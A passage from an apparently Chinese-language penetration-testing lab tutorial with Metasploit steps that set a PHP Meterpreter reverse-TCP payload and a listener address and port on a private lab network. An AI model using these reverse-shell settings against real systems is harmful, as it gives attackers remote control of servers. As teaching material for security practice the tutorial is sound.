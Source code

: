 ![use_module](../imgs/wm_340.png)

然后设置我们所使用的攻击脚本：

```
set PAYLOAD php/meterpreter/reverse_tcp
```

![set_payload](../imgs/wm_341.png)

此时需要加载片刻，成功的加载之后，设置我么我们的 IP 与 端口号了：

```
set LHOST 192.168.122.101

set LPORT 1111
```

![set_localhost](../imgs/wm_342.png)
